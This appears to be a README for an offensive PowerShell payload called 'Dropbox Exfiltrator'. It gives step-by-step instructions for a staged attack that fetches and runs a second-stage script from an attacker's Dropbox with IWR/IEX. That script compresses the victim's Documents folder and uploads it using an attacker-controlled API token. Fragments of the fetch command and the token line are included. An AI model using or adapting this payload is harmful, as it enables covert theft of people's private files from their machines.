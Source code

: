 # Dropbox Exfiltrator


This payload is not robust and is meant for demonstration purposes only. Known issues include the 150 MB file chunking limitation with Dropbox, as well as the IWR/IEX method and compression overhead. Please feel free to clean up.
Description

Staged powershell payload which downloads and executes exfil.ps1 from dropbox which compresses the users documents folder and uploads it to dropbox.
Requirements

    Step 1. Create a Dropbox app using their API and generate an access token from https://www.dropbox.com/developers/apps/create
    Step 2. Customize the powershell second stage exfil.ps1 file to exfiltrate the loot to Dropbox using the token generated above
    Step 3. Get a direct dropbox link for the powershell file (right-click exfil.ps1, get dropbox link, replace dl=0 with dl=1)
    Step 4. Customize the exfiltration payload.txt to use the dropbox link from above


$authorization = "Bearer " + "PASTE YOUR Dropbox access token link" -exfil.ps1
iwr (https:// PASTE YOUR Dropbox link) -payloads

![](./demo.gif)
